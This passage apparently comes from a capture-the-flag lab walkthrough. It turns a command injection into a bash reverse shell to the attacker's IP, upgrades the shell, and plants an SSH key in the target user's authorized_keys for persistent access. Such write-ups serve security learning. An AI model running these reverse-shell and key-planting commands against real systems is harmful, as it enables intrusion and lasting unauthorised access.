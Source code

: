 ### Reverse Shell

Let's turn this command injection into a full reverse shell. It should be as simple as sending one command. First, I'll try a bash reverse shell `bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'`:

![command injection 5](command%20injection%205.png)

![command injection 6](command%20injection%206.png)

There we go! Worked first try :thumbsup:



## USER FLAG

### Upgrading the Shell

I'll start out by attempting to upgrade my shell:

```bash
which python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg [enter] [enter]
export TERM=xterm-256color
alias ll="ls -lah"
```



### Planting an SSH  key

The reverse shell is pretty good, but it would be even better to have SSH. Let's plant an SSH key into the `puma` user for a more stable connection. First, on the attacker box, create a key, then base64-encode the pubkey:

```bash
ssh-keygen -t rsa -b 2048
[output to ./id_rsa and used passphrase "password"]
chmod 700 id_rsa
base64 -w 0 id_rsa.pub > id_rsa.pub64
cat id_rsa.pub64
[copy the output to clipboard]
```

On the target box, as puma:

```bash
mkdir -p ~/.ssh
echo "[paste the id_rsa.pub64 contents]" | base64 -d >> ~/.ssh/authorized_keys
```

Then, back on the attacker box, use SSH and the generated key to log in as `puma`:

```bash
ssh -i id_rsa puma@10.10.11.224
```

